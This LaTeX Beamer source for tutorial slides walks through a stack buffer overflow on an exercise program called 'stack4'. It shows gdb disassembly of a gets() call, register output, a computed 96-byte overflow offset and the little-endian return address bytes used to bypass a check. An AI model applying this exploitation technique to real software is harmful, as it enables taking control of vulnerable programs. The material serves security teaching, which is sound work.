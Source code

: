 \documentclass{beamer}
\newcommand{\sword}{\includegraphics[width=15pt]{sword.png} \hspace*{5pt}}
\begin{document}
\begin{frame}[fragile]{\sword Now let's disassemble main()}
\begin{lstlisting}[style=cstyle]
0x08048424 <main+0>:	push   %ebp
0x08048425 <main+1>:	mov    %esp,%ebp
0x08048427 <main+3>:	and    $0xfffffff0,%esp
0x0804842a <main+6>:	sub    $0x70,%esp
0x0804842d <main+9>:	lea    0x6c(%esp),%eax
0x08048431 <main+13>:	mov    %eax,0x8(%esp)
0x08048435 <main+17>:	lea    0x1c(%esp),%eax
0x08048439 <main+21>:	mov    %eax,0x4(%esp)
0x0804843d <main+25>:	movl   $0x8048530,(%esp)
0x08048444 <main+32>:	call   0x8048350 <printf@plt>
0x08048449 <main+37>:	lea    0x1c(%esp),%eax
0x0804844d <main+41>:	mov    %eax,(%esp)
0x08048450 <main+44>:	call   0x8048330 <gets@plt>
0x08048455 <main+49>:	mov    0x6c(%esp),%eax
0x08048459 <main+53>:	cmp    $0xa0d00,%eax
0x0804845e <main+58>:	jne    0x804846c <main+72>
0x08048460 <main+60>:	movl   $0x8048548,(%esp)
0x08048467 <main+67>:	call   0x8048360 <puts@plt>
0x0804846c <main+72>:	leave  
0x0804846d <main+73>:	ret    
\end{lstlisting} %
\end{frame} 

\begin{frame}[fragile]{\sword Registers}

\begin{terminal}
(gdb) b *0x0804846d 
(gdb) r 
Starting program: stack4 
buf: bffff58c cookie: bffff5dc 
aaaaaaaaaaaaaaaa 
Breakpoint 1, 0x0804846d in main () at stack4.c:13 
(gdb) info registers 
eax            0xb7fc8ff4	-1208184844
ecx            0xbffff58c	-1073744500
edx            0xb7fca334	-1208179916
ebx            0xb7fc8ff4	-1208184844
esp            0xbffff5ec	0xbffff5ec
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0x804846d	0x804846d <main+73>
\end{terminal}

\end{frame}
\begin{frame}[fragile]{\sword We have everything we need}

{\footnotesize
buf: bffff58c \\[0.3cm]
esp:           0xbffff5ec	0xbffff5ec\\[0.3cm]
}
\begin{lstlisting}[style=cstyle]
0x08048459 <main+53>:	cmp    $0xa0d00,%eax
0x0804845e <main+58>:	jne    0x804846c <main+72>
0x08048460 <main+60>:	movl   $0x8048548,(%esp)
0x08048467 <main+67>:	call   0x8048360 <puts@plt>
\end{lstlisting}
{\footnotesize
\begin{itemize}
\item 0xbffff5ec $-$ 0xbffff58c $=$ 0x00000060 $=$ 96 bytes we need to overflow.
\item Jump to: 0x08048460
\item Linux $\rightarrow$ Reverse stack $\rightarrow$ \textbackslash x60\textbackslash x84\textbackslash x04\textbackslash x08
\end{itemize}
}
\end{frame}
\end{document}
